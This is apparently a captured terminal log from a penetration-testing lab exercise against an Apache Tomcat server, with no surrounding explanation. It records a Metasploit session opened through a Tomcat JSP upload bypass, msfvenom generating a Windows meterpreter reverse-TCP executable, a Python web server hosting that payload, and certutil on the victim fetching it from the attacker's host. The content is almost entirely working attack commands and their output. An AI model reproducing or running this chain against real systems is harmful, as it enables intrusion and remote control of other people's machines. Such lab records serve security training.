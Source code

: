 ```
msf5 exploit(multi/http/tomcat_jsp_upload_bypass) > sessions

Active sessions
===============

  Id  Name  Type              Information  Connection
  --  ----  ----              -----------  ----------
  1         shell java/linux               10.10.16.2:36173 -> 10.0.25.99:4444 (10.0.25.99)
```

```
root@attackdefense:~# pwd
/root
root@attackdefense:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f exe > meterpreter.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

```
root@attackdefense:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

```

```
C:\Program Files\Apache Software Foundation\Tomcat 8.5>certutil -urlcache -f http://10.10.16.2/meterpreter.exe meterpreter.exe
certutil -urlcache -f http://10.10.16.2/meterpreter.exe meterpreter.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

```
C:\Program Files\Apache Software Foundation\Tomcat 8.5>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 8.5

01/31/2023  03:48 AM    <DIR>          .
01/31/2023  03:48 AM    <DIR>          ..
09/16/2020  06:00 AM    <DIR>          bin
09/16/2020  06:02 AM    <DIR>          conf
09/16/2020  06:00 AM    <DIR>          lib
07/24/2017  09:01 PM            58,153 LICENSE
01/31/2023  03:10 AM    <DIR>          logs
01/31/2023  03:48 AM            73,802 meterpreter.exe
07/24/2017  09:01 PM             1,774 NOTICE
07/24/2017  09:01 PM             7,241 RELEASE-NOTES
09/16/2020  06:00 AM    <DIR>          temp
07/24/2017  09:01 PM            21,630 tomcat.ico
07/24/2017  09:01 PM            73,624 Uninstall.exe
09/16/2020  06:00 AM    <DIR>          webapps
09/16/2020  06:00 AM    <DIR>          work
               6 File(s)        236,224 bytes
               9 Dir(s)   8,856,035,328 bytes free
```
